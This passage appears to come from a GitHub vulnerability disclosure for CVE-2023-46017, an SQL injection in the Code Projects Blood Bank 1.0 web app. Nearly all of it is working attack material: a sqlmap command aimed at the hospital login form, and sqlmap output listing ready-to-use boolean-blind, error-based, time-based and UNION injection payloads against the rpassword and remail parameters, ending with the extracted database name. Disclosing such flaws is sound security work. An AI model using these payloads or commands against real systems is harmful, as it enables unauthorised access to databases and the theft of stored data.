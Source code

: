 ```
    Title: Generic UNION query (NULL) - 7 columns
    Payload: remail=test@test' UNION ALL SELECT NULL,CONCAT(0x7170707171,0x4e764e5452486270544a6e4c705a79535a667441756d556b416e7961484a534a647542597a61466f,0x7178706271),NULL,NULL,NULL,NULL,NULL-- -&rpassword=test&rlogin=Login
---
```
+ `sqlmap -u "http://localhost/bloodbank/file/hospitalLogin.php" --method POST --data "hemail=test@test&hpassword=test&hlogin=Login" -p rpassword --risk 3 --level 3 --dbms mysql --batch --current-db`

```
---
Parameter: rpassword (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: remail=test@test&rpassword=test' AND 9149=(SELECT (CASE WHEN (9149=9149) THEN 9149 ELSE (SELECT 9028 UNION SELECT 5274) END))-- -&rlogin=Login

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: remail=test@test&rpassword=test' OR (SELECT 6087 FROM(SELECT COUNT(*),CONCAT(0x7170707171,(SELECT (ELT(6087=6087,1))),0x7178706271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- VRqW&rlogin=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: remail=test@test&rpassword=test' AND (SELECT 4449 FROM (SELECT(SLEEP(5)))eegb)-- Cuoy&rlogin=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: remail=test@test&rpassword=test' UNION ALL SELECT NULL,CONCAT(0x7170707171,0x6e686d776376736a706f47796d474a736a48566f72625a4e6d537247665a444f684154684b476d62,0x7178706271),NULL,NULL,NULL,NULL,NULL-- -&rlogin=Login
---
```

+ current database: `bloodbank`
<img width="1447" alt="image" src="https://github.com/ersinerenler/CVE-2023-46017-Code-Projects-Blood-Bank-1.0-SQL-Injection-Vulnerability/assets/113091631/9806c5a1-b9ab-4822-9fd3-df4f76e1f97a">

